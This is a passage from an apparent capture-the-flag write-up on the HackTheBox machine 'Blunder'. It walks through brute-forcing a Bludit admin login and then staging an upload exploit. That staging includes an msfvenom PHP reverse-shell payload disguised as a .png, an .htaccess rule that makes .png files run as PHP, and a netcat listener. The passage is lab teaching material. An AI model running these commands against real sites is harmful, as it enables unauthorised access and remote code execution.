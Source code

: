 Running it gives us a list of 349 words, which seems like a much more reasonable size wordlist for an exploit that runs at a slow speed. We can now run at attack again with the new wordlist.

```
./48746.rb -r http://blunder.htb -u fergus -w site_wordlist.txt
```

It successfully finds the password to be `RolandDeschain`, which is on line 176 of our wordlist and the script will stop the brute force attack.

So now we have the credentials for bludit, we can login to the /admin page wirth user: `fergus` and password `RolandDeschain`.

### Bludit Enumeration

Looking around the website things of interest are:
- The notification history on the dashboard
- A draft called Blender under the content section
- An authentication token under profile > security
- Lack of permisisons And it to view the categories and users page from the desktop
- Able to create new content from the desktop

### Bludit Exploitation

Now that we've looked over the website, let's look back at the directory traversal 

Looking back to the directory traversal exploits we found on searchsploit, we have the manual method and a Metasploit module. I'll be trying the manual way.

```
#### USAGE ####
# 1. Create payloads: .png with PHP payload and the .htaccess to treat .pngs like PHP
# 2. Change hardcoded values: URL is your target webapp, username and password is admin creds to get to the admin dir
# 3. Run the exploit
# 4. Start a listener to match your payload: `nc -nlvp 53`, meterpreter multi handler, etc
# 5. Visit your target web app and open the evil picture: visit url + /bl-content/tmp/temp/evil.png
```

Step 1. Change the variables for url, username and password
```
url = 'http://blunder.htb'  # CHANGE ME
username = 'fergus'  # CHANGE ME
password = 'RolandDeschain'  # CHANGE ME
```

Step 2. Modify the msfvenom command and generate the payload
```
msfvenom -p php/reverse_php LHOST=10.10.14.52 LPORT=4444 -f raw -b '"' > evil.png
```

Step 3. Add the msfvenom payload inside php code

```
echo -e "<?php $(cat evil.png)" > evil.png
```

Step 4. Create the .htaccess file
```
echo "RewriteEngine off" > .htaccess
echo "AddType application/x-httpd-php .png" >> .htaccess
```

